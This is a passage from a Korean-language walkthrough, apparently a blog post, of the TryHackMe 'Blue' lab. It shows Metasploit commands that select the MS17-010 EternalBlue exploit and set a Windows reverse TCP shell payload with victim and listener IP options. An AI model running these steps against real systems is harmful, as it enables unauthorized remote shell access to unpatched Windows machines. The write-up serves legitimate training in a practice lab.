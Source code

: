 해당 머신을 공격하여 발판을 만듭니다.

<div class="content-ad"></div>

메타스플로잇을 시작해주세요.

```js
msfconsole - q;
```

기계에 대해 실행할 악용 코드를 찾아보세요. 코드의 전체 경로는 무엇인가요? (예: exploit/......)

우리는 취약점에 적합한 악용 코드를 찾기 위해 다음 명령을 실행할 것입니다.

<div class="content-ad"></div>

```js
search ms17-010
```

![TryHackMeBlue_2](/assets/img/2024-06-23-TryHackMeBlue_2.png)

답변: exploit/windows/smb/ms17_010_eternalblue

알겠어요. 원하는 업적을 선택하기 위해 다음 명령을 실행하면 됩니다:

<div class="content-ad"></div>

사용 0

사용은 모듈을 선택하는 것이며, 우리는 사용하려는 모듈의 번호가 0이기 때문에 0을 선택합니다. 이해했어요? ;) Metasploit은 매우 논리적인 구문을 가지고 있어서 우리에게 일을 쉽게 만들어줍니다.

![이미지](/assets/img/2024-06-23-TryHackMeBlue_3.png)

그럼 이제 선택한 모듈로 Metasploit은 자동으로 페이로드를 선택합니다. 이 경우, windows/x64/meterpreter/reverse_tcp를 선택합니다. 우리는 windows/x64/shell/reverse_tcp를 사용하여 미터프리터 셸로 업그레이드 할 것입니다.

<div class="content-ad"></div>

자, payload를 설명해 드리겠습니다. 이것은 x64 아키텍처를 사용하는 Windows 기기를 위한 payload로, 기본 Windows 셸을 이용한 역방향 tcp 셸입니다. 역쉘은 우리 기기에 리스너를 설정하고 대상으로부터 연결을 받을 때 얻는 것으로, 이를 통해 해당 기기에서 명령을 실행할 수 있게 됩니다.

다음과 같이 3가지 옵션을 설정해야 합니다:

- RHOSTS — 피해 기기의 IP 주소 또는 호스트 이름
- LHOST — 우리가 수신 대기하는 호스트; VPN IP 또는 tun0 IP 주소 (공격 상자에서 이를 설정할 필요가 없을 수도 있지만 정확한 IP임을 확인해야 합니다. 그렇지 않으면 피해 기기로부터 연결을 받을 수 없습니다.)
- payload — windows/x64/shell/reverse_tcp

이를 실행하여 설정할 수 있습니다:

<div class="content-ad"></div>

set rhosts [피해자 IP]
set lhost [tun0 IP 또는 공격 상자 IP]
set payload windows/x64/shell/reverse_tcp

위 단계를 마치면 옵션을 실행하여 설정한 모든 옵션을 확인하여 올바른지 확인할 수 있습니다.

![이미지](/assets/img/2024-06-23-TryHackMeBlue_4.png)
